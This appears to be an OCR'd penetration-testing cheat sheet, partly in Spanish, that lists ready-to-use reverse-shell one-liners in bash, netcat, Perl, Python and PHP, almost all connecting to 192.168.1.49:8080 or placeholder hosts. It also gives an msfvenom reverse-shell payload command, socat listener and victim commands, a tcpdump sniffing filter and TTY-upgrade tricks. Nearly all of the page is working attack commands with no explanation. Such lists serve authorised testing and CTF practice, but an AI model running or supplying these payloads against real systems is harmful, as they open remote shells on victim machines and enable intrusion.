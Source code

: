 * msfvenom -p linux/x86/shell\_reverse\_tcp LHOST= LPORT= -f elf &gt; shell.elf
* netcat + multihandlers \(metasploit\)

#### Bash

* /bin/bash -i &gt; /dev/tcp/192.168.1.49/8080 0&lt;&1 2&gt;&1
* rm /tmp/blackpipe;mkfifo /tmp/blackpipe;cat /tmp/blackpipe\|/bin/sh -i 2&gt;&1\|nc 192.168.1.49 8080 &gt;/tmp/blackpipe
* nc -c /bin/sh \[IPADDR\] \[PORT\]
* nc -e /bin/sh \[IPADDR\] \[PORT\]
* /bin/sh \| nc \[IPADDR\] \[PORT\]

#### Perl

* perl -e ‘use Socket;$i=”192.168.1.49″;$p=8080;socket\(S,PF\_INET,SOCK\_STREAM,getprotobyname\(“tcp”\)\);if\(connect\(S,sockaddr\_in\($p,inet\_aton\($i\)\)\)\){open\(STDIN,”&gt;&S”\);open\(STDOUT,”&gt;&S”\);open\(STDERR,”&gt;&S”\);exec\(“/bin/sh -i”\);};’

#### Python

* python -c ‘import socket,subprocess,os;s=socket.socket\(socket.AF\_INET,socket.SOCK\_STREAM\);s.connect\(\(“192.168.1.49”,8080\)\);os.dup2\(s.fileno\(\),0\); os.dup2\(s.fileno\(\),1\); os.dup2\(s.fileno\(\),2\);p=subprocess.call\(\[“/bin/sh”,”-i”\]\);’

#### Python 3

* python3 -c 'import socket,subprocess,os;s=socket.socket\(socket.AF\_INET,socket.SOCK\_STREAM\);s.connect\(\("\[IPADDR\]",\[PORT\]\)\);os.dup2\(s.fileno\(\),0\); os.dup2\(s.fileno\(\),1\); os.dup2\(s.fileno\(\),2\);p=subprocess.call\(\["/bin/sh","-i"\]\);'
* python3 -c 'import socket,subprocess,os;s=socket.socket\(socket.AF\_INET,socket.SOCK\_STREAM\);s.connect\(\("\[IPADDR\]",\[PORT\]\)\);os.dup2\(s.fileno\(\),0\); os.dup2\(s.fileno\(\),1\);os.dup2\(s.fileno\(\),2\);import pty; pty.spawn\("/bin/sh"\)'

#### Php

* php -r ‘$sock=fsockopen\(“192.168.1.49”,8080\);exec\(“/bin/sh -i &lt;&3 &gt;&3 2&gt;&3”\);’

### Sniffing de red

* tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

### TTY-Shell

* python -c 'import pty;pty.spawn\("/bin/bash"\)'
* echo os.system\('/bin/bash'\)
* /bin/sh -i

* Socat

_Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

_Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444_

* Stty
